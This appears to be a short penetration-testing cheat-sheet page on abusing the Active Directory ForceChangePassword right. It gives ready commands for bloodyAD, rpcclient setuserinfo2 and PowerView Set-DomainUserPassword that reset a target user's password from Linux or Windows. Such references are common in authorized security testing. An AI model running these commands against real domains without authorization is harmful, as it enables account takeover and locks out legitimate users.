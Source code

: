 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["Forcechangepassword", "Powerview", "Active Driectory", "Windows", "bloodyAD"]
---
```


### Change target user password (From Linux)

{{< tab set1 tab1 active >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> set password <TARGET_USER> '<NEW_PASSWORD>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change Target User Password

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}
